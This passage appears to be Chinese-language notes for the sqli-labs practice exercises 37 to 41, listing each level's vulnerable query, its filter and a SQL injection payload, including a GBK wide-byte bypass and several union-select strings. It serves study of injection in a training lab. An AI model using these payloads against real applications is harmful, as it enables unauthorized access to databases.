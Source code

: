 ### 37、POST + 宽字节注入 [ ' ]

```mysql
# SQL语句
SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1;
# 过滤语句
mysql_query("SET NAMES gbk");
# Payload
uname=-admin%df' union select 1,database()--+
```

### 38、联合查询 [ ' ]

```MYSQL
# SQL语句
SELECT * FROM users WHERE id='$id' LIMIT 0,1；
# 过滤语句
无
# Payload
# "SELECT * FROM users WHERE id='$id' LIMIT 0,1";
?id=-1' union select 1,2,database() --+
```

### 39、联合查询 [ ]

```python
# SQL语句
SELECT * FROM users WHERE id=$id LIMIT 0,1；
# 过滤语句
无
# Payload
?id=0 union select 1,2,database()--+
```

### 40、联合查询 [ ') ]

```mysql
# SQL语句
SELECT * FROM users WHERE id=('$id') LIMIT 0,1;
# 过滤语句
无
# Payload
?id=0')union select 1,2,database()--+
```

### 41、联合查询 [ ]

```mysql
# SQL语句
SELECT * FROM users WHERE id=$id LIMIT 0,1;
# 过滤语句
无
# Payload
?id=0 union select 1,2,database() --+
```
